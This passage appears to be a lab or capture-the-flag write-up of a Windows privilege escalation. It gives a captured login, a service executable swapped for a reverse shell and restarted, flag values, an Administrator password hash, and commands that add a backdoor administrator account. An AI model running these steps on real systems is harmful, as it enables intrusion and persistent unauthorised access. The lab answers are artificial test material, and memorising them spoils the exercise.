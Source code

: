 Got local access by `wario:Mushroom!`
```powershell
# There was a service running, I changed the exe to a reverse shell and used the below command
Restart-Service auditTracker
```

local.txt : 39c293bd9b3eb8455b9165fdae1db8d3
proof.txt: a4fd356be0053b062d9c8bc481d89558

```
Administrator:00fd074ec24fd70c76727ee9b2d7aacd
```


# Post-Exploitation
```powershell
# Added a local user
net user dave2 password123! /add /domain
net localgroup administrators dave2 /add
net localgroup "Remote Management Users" dave2 /add
```